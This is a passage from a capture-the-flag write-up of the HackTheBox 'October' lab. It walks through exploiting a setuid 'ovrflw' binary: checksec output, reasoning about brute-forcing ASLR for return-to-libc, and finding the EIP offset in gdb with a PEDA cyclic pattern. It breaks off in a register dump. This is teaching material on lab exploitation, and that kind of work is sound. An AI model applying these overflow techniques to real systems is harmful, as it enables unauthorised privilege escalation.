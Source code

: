 
I’ll bring the binary back to my host (I can drop a copy in a web folder and
download it), and then look for additional protections:

    
    
    root@kali# checksec ovrflw
    [*] '/media/sf_CTFs/hackthebox/october-10.10.10.16/ovrflw'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    

NX means that I can’t run shellcode from the stack, which is where I can
write.

I recently did an introduction to Return to libc attacks in the [Frolic write-
up](/2019/03/23/htb-frolic.html). The big difference here is that ASLR is
enabled. However, if I look at the `ldd` output, I’ll notice that the address
is really only changing between `0xb7500000` and `0xb76ff000`. It looks like
at most one byte plus one bit are changing, or nine bits, or 512 options. That
means if I guess once, I have a (511/512)1 = 99.8% chance of failure, or a 1 -
(511/512)1 = 0.2% chance of success. But if I try 500 times, I have a 1 -
(511/512)500 = 62.38% chance of success. After 1000 guesses, I have a 1 -
(511/512)1000 = 85.84% chance of succeeding. And since there’s nothing to stop
me from calling the program over and over again. I’ll go that route.

### ovrflw Find Offset

First thing I need to do is to find the offset to EIP in my input. I’ll open
the binary with `gdb`, and I have my `gdb` set to automatically load
[PEDA](https://github.com/longld/peda).

    
    
    root@kali# gdb -q ./ovrflw
    Reading symbols from ./ovrflw...(no debugging symbols found)...done.
    gdb-peda$
    

I’ll use `pattern_create` (part of PEDA, also available as a stand-alone
binary from Metasploit) to create a non-repeating pattern 500 long. I’ll pass
that into the program and run it:

    
    
    gdb-peda$ pattern_create 500
    'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'
    gdb-peda$ run 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'
    [----------------------------------registers-----------------------------------]
    EAX: 0x0 
    EBX: 0x0 
    ECX: 0xffffd3e0 ("As6A")
    EDX: 0xffffd0fc ("As6A")
    ESI: 0xf7f99000 --> 0x1d9d6c 
    EDI: 0xf7f99000 --> 0x1d9d6c 
    EBP: 0x6941414d ('MAAi')